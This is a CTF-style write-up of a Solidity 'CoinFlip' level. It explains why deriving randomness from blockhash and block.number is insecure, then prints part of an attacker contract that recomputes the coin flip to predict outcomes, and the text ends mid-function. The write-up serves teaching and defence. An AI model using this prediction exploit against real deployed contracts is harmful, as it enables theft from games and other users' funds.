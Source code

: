 This level illustrates one of the most serious pitfalls in the smart contracts, the generation of pseudo-random numbers.

According to [Chainlink](https://blog.chain.link/random-number-generation-solidity/):

> Random number generation (RNG) in solidity must be done by sending a seed to an off-chain resource like an [oracle](https://chain.link/education/blockchain-oracles), which must then return the generated random number and verifiable proof back to the smart contract.  Random numbers cannot be generated natively in Solidity due to the determinism of blockchains.

Unfortunately, developers currently attempt to create pseudo-randomness in Ethereum by hashing variables that are unique or difficult to tamper with, such as `block height`, `sender address` or `transaction timestamp`. Ethereum also offers two main cryptographic hashing functions, SHA-3 and [KECCAK256](https://keccak.team/keccak_specs_summary.html), which hash the result of concatenating the variables mentioned before. 

Notwithstanding, using custom implementations to calculate pseudo-random numbers (our case with this contract)  in smart contracts makes them vulnerable to attacks. Attackers who know the input, can revert the process and guess the outcome and that is exactly what occurs with this contract. 

## Where is the vulnerability?
The contract has a flaw with its flipping algorithm, specifically with the use of `block.number` and `blockhash` as a form of randomness. According to Solidity official documentation:

> The timestamp and the block hash can be influenced by miners to some degree. Bad actors in the mining community can for example run a casino payout function on a chosen hash and just retry a different hash if they did not receive any money.

In this particular level, a malicious user can calculate the correct answer if they run the same algorithm in their attack function before calling the contract’s `flip` function.

## Hacking the contract
Once again, let’s use brownie to solve this challenge by creating a malicious contract that mimics the original contract with some minor differences:

```solidity {lineos=table,hl_lines=[24,25,26,27,28,29,30,31,32,33,34,35,36,37],lineofstart=1}
//SDPX-License-Identifier: MIT
pragma solidity ^0.6.0;

import './safemath.sol';

// Import the interface for the original CoinFlip contract
// so we can invoke the flip method from this contract
import 'interfaces/coinflipInterface.sol';

contract CoinFlipAttack {
    // CoinFlip interface's object;
    CoinFlipInterface coinflipContract;

    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Constructor will initialize the coinflipContract object using the target's address
    // See attack.py to see how this constructor is called.
    constructor(address _address) public {
        coinflipContract = CoinFlipInterface(_address);
    }

    // Function that recreates the contract's logic and pass the expected value
    function attack() public {
        // Calculate the expected value based on block.number and blockhash
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        
        bool side = coinFlip == 1 ? true : false;

```
